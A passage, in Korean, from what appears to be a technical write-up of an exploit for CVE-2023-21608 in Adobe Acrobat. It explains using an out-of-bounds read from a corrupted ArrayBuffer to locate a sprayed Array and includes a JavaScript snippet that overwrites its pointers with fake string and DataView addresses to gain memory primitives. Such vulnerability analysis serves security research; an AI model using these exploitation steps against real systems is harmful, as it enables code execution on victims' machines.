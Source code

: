 ![Untitled](1day1document_CVE-2023-21608/Untitled%206.png)

> 그림.1: [출처](https://downloads.immunityinc.com/infiltrate-archives/the_shadow_over_firefox_infiltrate_2015.pdf) Slide 10
> 

이를 참고하여 `Array`에 저장된 데이터를 분석하면 `0db3c420 ffffff85`는 문자열인 `targetStr`이고 `0dda27c0 ffffff87`는 DataView인 `targetDV`인 것을 알 수 있습니다.

### Corrupt Sparyed Array

먼저 변조된 `ArrayBuffer`를 통해 인접한 `Array`를 찾기 위해 OOB Read를 활용합니다.

OOB Read로 읽은 데이터를 `Array[0]`에 위치한 0x47484950과 비교하는 것을 통해 스프레이된 `Array`임을 식별할 수 있고 OOB Read에 사용된 인덱스에서 4를 빼서 `Array` 오브젝트가 위치한 주소에 접근하기 위한 인덱스 `arrStart`에 저장합니다.

이후 아래의 코드를 통해 `Array`에 접근하여 `targetStr`과 `targetDV`를 가리키는 부분을 각각 `FAKE_STR`과 `FAKE_DV`로 변조합니다.

```jsx
        originalTargetStrAddr = uintArr[arrStart + 6];// corrupted ArrayBuffer
        originalTargetDVAddr = uintArr[arrStart + 8];

        // corrupt for further primitives
        uintArr[arrStart + 4] = 0x47484951;
        uintArr[arrStart + 6] = FAKE_STR; // 0x20000058 + 0x100
        uintArr[arrStart + 8] = FAKE_DV; //0x20000058 + 0x180

        corruptedTypedArr = uintArr;
        
        
```

